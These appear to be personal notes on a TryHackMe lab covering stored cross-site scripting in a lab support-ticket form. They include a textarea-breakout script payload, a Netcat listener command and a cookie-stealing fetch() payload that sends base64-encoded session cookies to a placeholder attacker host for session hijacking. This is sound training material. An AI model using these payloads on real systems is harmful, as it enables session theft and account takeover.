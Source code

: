  `</textarea><script>alert('THM');</script>`  

Now when you view the ticket, you should get an alert box with the string THM. We're going to now expand the payload even further and increase the vulnerabilities impact. Because this feature is creating a support ticket, we can be reasonably confident that a staff member will also view this ticket which we could get to execute JavaScript. 

Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session. To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information.

Using the AttackBox, let’s set up a listening server using Netcat. If we want to listen on port 9001, we issue the command `nc -l -p 9001`. The `-l` option indicates that we want to use Netcat in listen mode, while the `-p` option is used to specify the port number. To avoid the resolution of hostnames via DNS, we can add `-n`; moreover, to discover any errors, running Netcat in verbose mode by adding the `-v` option is recommended. The final command becomes `nc -n -l -v -p 9001`, equivalent to `nc -nlvp 9001`.

nc

```shell-session
user@machine$ nc -nlvp 9001
Listening on [0.0.0.0] (family 0, port 9001)
```
Now that we’ve set up the method of receiving the exfiltrated information, let’s build the payload.

`</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`

Let’s break down the payload:

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.

Now create another ticket using the above payload, making sure to swap out the `URL_OR_IP:PORT_NUMBER` variables with your settings (make sure to specify the port number as well for the Netcat listener). Now, wait up to a minute, and you will see the request come through containing the victim’s cookies.
![[Pasted image 20240724211647.png]]

